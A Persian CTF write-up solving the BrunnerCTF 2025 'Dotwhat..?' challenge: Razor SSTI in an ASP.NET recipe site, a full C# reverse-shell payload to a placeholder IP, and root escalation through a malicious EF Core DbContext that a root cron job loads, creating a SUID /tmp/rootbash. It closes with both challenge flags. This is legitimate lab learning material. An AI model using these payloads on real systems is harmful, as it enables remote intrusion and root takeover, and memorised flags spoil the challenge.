


---
tags:
  - BrunnerCTF 
  - BrunnerCTF-2025
  - Web
  - dotnet
---

# چالش Dotwhat..? (User / Root)

تو این چالش به ما یه وبسایت دادن که از طریقش باید RCE میگرفتیم، خب وبسایت سه تا ورودی داره:



---

## SSTI & گرفتن RCE

توی `instructions` تونستیم `SSTI` بزنیم با payload سادهٔ زیر:

```razor
@(2+2)
```

این رفتار به خاطر استفاده از Template engine **Razor** توی `ASP.NET` بود.  
پس با `SSTI`، کد مخرب اجرا می‌کنیم—بهترین گزینه برای ما `reverse shell` بود:

```csharp
@{
    try {
        using (var client = new System.Net.Sockets.TcpClient("< I P >", PORT)) {
            using (var stream = client.GetStream())
            using (var writer = new System.IO.StreamWriter(stream))
            using (var reader = new System.IO.StreamReader(stream)) {

                writer.AutoFlush = true;

                var psi = new System.Diagnostics.ProcessStartInfo("/bin/bash") {
                    RedirectStandardInput = true,
                    RedirectStandardOutput = true,
                    RedirectStandardError = true,
                    UseShellExecute = false,
                    CreateNoWindow = true
                };

                var proc = new System.Diagnostics.Process();
                proc.StartInfo = psi;
                proc.Start();

                var stdin = proc.StandardInput;
                var stdout = proc.StandardOutput;
                var stderr = proc.StandardError;

                new System.Threading.Thread(() => {
                    string line;
                    while ((line = stdout.ReadLine()) != null) {
                        writer.WriteLine(line);
                    }
                }).Start();

                new System.Threading.Thread(() => {
                    string line;
                    while ((line = stderr.ReadLine()) != null) {
                        writer.WriteLine("ERR: " + line);
                    }
                }).Start();

                string cmd;
                while ((cmd = reader.ReadLine()) != null) {
                    stdin.WriteLine(cmd);
                }

                proc.WaitForExit();
            }
        }
    } catch (System.Exception ex) {
        try {
            using (var errClient = new System.Net.Sockets.TcpClient("< I P >", PORT)) {
                using (var errStream = errClient.GetStream()) {
                    var msg = System.Text.Encoding.ASCII.GetBytes("ERROR: " + ex.ToString());
                    errStream.Write(msg, 0, msg.Length);
                }
            }
        } catch {}
    }
}
```

منتظر کانکشن می‌مونیم 😊



---

## سرنخ برای دسترسی بالاتر: `cron`

برای خوندن `/root/root.txt` باید دسترسی روت بگیریم. با نگاه به `cron`:

```bash
cat /etc/cron.d/*
30 3 * * 0 root test -e /run/systemd/system || SERVICE_MODE=1 /usr/lib/x86_64-linux-gnu/e2fsprogs/e2scrub_all_cron
10 3 * * * root test -e /run/systemd/system || SERVICE_MODE=1 /sbin/e2scrub_all -A -r
PATH=/opt/devtools:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/root/.dotnet/tools
* * * * * root cd /home/user/app && /usr/bin/dotnet ef database update >> /var/log/migrate.log 2>&1
```

- از خط `* * * * *` مشخصه `cron` **هر دقیقه** اجرا می‌شه؛ پس بعد از قرار دادن/بیلد پروژه، حداکثر ظرف **۶۰ ثانیه** تریگر می‌شه.  
- دستور `dotnet ef database update` برای آپدیت اسکیمای دیتابیس، اسمبلی پروژه رو **لود** می‌کنه و یک `DbContext` می‌سازه. هر کدی که در `DbContext` (مثلاً `OnConfiguring`) اجرا می‌شه، اینجا با **دسترسی root** اجرا خواهد شد. بنابراین **بهترین نقطهٔ تزریق** برای PE همین «DbContext» است.

---

## اکسپلویت با `EF Core Migrations`

ایده: وقتی `cron`، `dotnet ef database update` رو با روت اجرا می‌کنه، `DbContext` ما لود می‌شه و `OnConfiguring` می‌تونه عملیاتِ SUID روی `/bin/bash` انجام بده تا یک `rootbash` بسازه.

#### (Program.cs)

```csharp
using app.Models;
using Microsoft.EntityFrameworkCore;

var builder = WebApplication.CreateBuilder(args);

builder.Services.AddDbContext<PwnContext>(options =>
    options.UseSqlite("Data Source=/home/user/app/dummy.db"));

var app = builder.Build();

app.UseStaticFiles();
app.UseRouting();
app.UseAuthorization();

app.MapControllerRoute(
    name: "default",
    pattern: "{controller=Recipes}/{action=Index}");

app.Run();
```
#### (app.csproj)
```xml
<Project Sdk="Microsoft.NET.Sdk.Web">
  <PropertyGroup>
    <PreserveCompilationContext>true</PreserveCompilationContext>
    <TargetFramework>net8.0</TargetFramework>
    <Nullable>enable</Nullable>
    <ImplicitUsings>enable</ImplicitUsings>
  </PropertyGroup>
  <ItemGroup>
    <PackageReference Include="RazorLight" Version="2.3.1" />
    <PackageReference Include="Microsoft.EntityFrameworkCore.Sqlite" Version="8.0.0" />
    <PackageReference Include="Microsoft.EntityFrameworkCore.Design" Version="8.0.0" />
  </ItemGroup>
</Project>
```

ساختار فولدر مدل‌ها:

```bash
mkdir -p Models
```

### کد `DbContext` مخرب (PrivEsc)

#### (Models/PwnContext.cs)
```csharp
using Microsoft.EntityFrameworkCore;
using System.Diagnostics;
using System.IO;

namespace app.Models
{
    public class PwnContext : DbContext
    {
        public PwnContext(DbContextOptions<PwnContext> options) : base(options) { }

        protected override void OnConfiguring(DbContextOptionsBuilder optionsBuilder)
        {
            base.OnConfiguring(optionsBuilder);

            try
            {
                string target = "/tmp/rootbash";

                if (!File.Exists(target))
                {
                    if (Environment.UserName == "root")
                    {
                        Process.Start("/bin/bash", "-c "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"");
                    }
                }
            }
            catch { }
        }

        public DbSet<Dummy> DummyTable { get; set; }
    }

    public class Dummy
    {
        public int Id { get; set; }
    }
}
```

**توضیح این کد چکار می‌کنه؟**  
- در `OnConfiguring` بررسی می‌کنه اگر فایل `/tmp/rootbash` وجود نداشت و **کاربر جاری `root`** بود، یک کپی از `/bin/bash` تو `/tmp/rootbash` می‌سازه و با `chmod +s` بیتِ `SUID` رو ست می‌کنه.  
- نتیجه: اجرای `/tmp/rootbash -p` یک شل با `effective uid = 0` می‌ده.

---

## بیلد و تریگر شدن توسط `cron`

```bash
dotnet build
/usr/bin/dotnet ef database update
```

(گام دوم رو معمولاً خود `cron` هر دقیقه انجام می‌ده؛ بیلد دستی کمک می‌کنه مطمئن شیم آرتیفکت‌ها آماده‌ان. سپس ظرف حداکثر ~۱ دقیقه، کران تریگر می‌شه.)

---

## گرفتن روت و خواندن فلگ

```bash
/tmp/rootbash -p
cat /root/root.txt
```

---

## Flags

??? success "(User) FLAG :triangular_flag_on_post:"
    <div dir="ltr">`brunner{m0R3_l1K3_r3c1P3_1NJ3ct1On!}`</div>
??? success "(Root) FLAG :triangular_flag_on_post:"
    <div dir="ltr">`brunner{M1Gr4T3_Th353_pR1v1l3G35!_H4H4_G0T_3M}`</div>


!!! نویسنده
    [Arad]()

